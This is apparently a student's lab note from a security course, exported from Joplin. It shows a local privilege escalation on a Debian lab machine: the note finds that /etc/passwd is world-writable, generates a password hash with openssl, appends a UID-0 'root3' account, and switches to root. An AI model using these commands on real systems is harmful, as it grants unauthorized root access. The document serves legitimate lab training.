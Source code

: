 18.3.3.1

# 18.3.3.1

## 18.3.3.1.1. Log in to your Debian client with your student credentials and attempt to elevate your privileges by adding a superuser account to the /etc/passwd file.

For backwards compatability, if a **password hash** is present in the second column of an /etc/passwd user record, it is considered valid for authentication and takes precedence over the respective entry in /etc/shadow if available.

The /etc/passwd permissions on the Debian client were not set correctly. We will add another superuser (root2) and the corresponding hash to the /etc/passwd file.

View the incorrect permissions for /etc/passwd
```plaintext
student@debian:~$ ls -la /etc/passwd
-rwxrwxrwx 1 root root 1971 Oct  3 18:06 /etc/passwd
```

Generate the password hash with the help of openssl and passwd
```plaintext
student@debian:~$ openssl passwd evil
3X7BhwYRtV3cU
```
Add a new user (root3) to /etc/passwd and use the password hash created previously.
```plaintext
student@debian:~$ echo "root3:3X7BhwYRtV3cU:0:0:root:/root:/bin/bash" >> /etc/passwd
```
Log ing as the newly added user root3
```plaintext
student@debian:~$ su root3
Password: 
root@debian:/home/student# whoami
root
root@debian:/home/student#
```
![cb7b01db511de15c62c168b1b7ffaeb1.png](:/e3432c7ba29f43bcb7b8edba55ae5f0f)





id: 31a019a7bc444748b09bfc58463616b8
parent_id: 25c14c0d50a144c1a3375ba145e98bf5
created_time: 2020-10-02T10:22:58.630Z
updated_time: 2020-10-03T22:12:51.330Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T10:22:58.630Z
user_updated_time: 2020-10-03T22:12:51.330Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1